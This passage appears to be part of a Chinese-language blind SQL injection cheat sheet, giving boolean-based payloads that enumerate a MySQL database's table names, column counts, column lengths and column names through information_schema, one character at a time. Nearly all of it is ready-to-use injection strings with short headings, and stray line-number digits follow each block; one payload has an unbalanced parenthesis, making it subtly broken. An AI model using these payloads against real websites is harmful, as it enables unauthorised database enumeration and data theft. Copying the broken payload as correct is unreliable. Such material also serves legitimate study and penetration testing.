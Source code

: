 ```
'or (select length(TABLE_NAME) from information_schema.TABLES where TABLE_SCHEMA=database() limit 0,1) = 5 --+
'or (select length(TABLE_NAME) from information_schema.TABLES where TABLE_SCHEMA=database() limit 1,1) = 5 --+ （第二个表）
12
```



##### **猜解第一个表名**

```
'or mid((select TABLE_NAME from information_schema.TABLES where TABLE_SCHEMA = database() limit      0,1 ),1,1) = 'a'  --+
或者
'Or ORD(mid(select TABLE_NAME from information_schema.TABLES where 
TABLE_SCHEMA = database() limit 0,1),1,1)) >100   --+
1234
```



##### **猜解表的字段的总数**

```
'or (select count(column_name) from information_schema.COLUMNS where TABLE_NAME='表名') > 5 --+
1
```



##### **猜解第一个字段的长度**

```
'or (select length(column_name) from information_schema.COLUMNS where TABLE_NAME='表名' limit 0,1) = 10 --+
'or (select length(column_name) from information_schema.COLUMNS where TABLE_NAME='表名' limit 1,1) = 10 --+ （第二个字段）
12
```



##### **猜解第一个字段名**

```
'or mid((select COLUMN_NAME from information_schema.COLUMNS where TABLE_NAME = '表名' limit 0,1),1,1) = 'i' --+
或者
'or ORD(mid((select COLUMN_NAME from information_schema.COLUMNS where TABLE_NAME = '表名' limit 0,1),1,1)) > 100 --+
123
```



##### **猜解直接猜测字段名**

```
' or (select COLUMN_NAME from information_schema.COLUMNS where TABLE_NAME='表名' limit 1,1) = 'username' --+
1
```
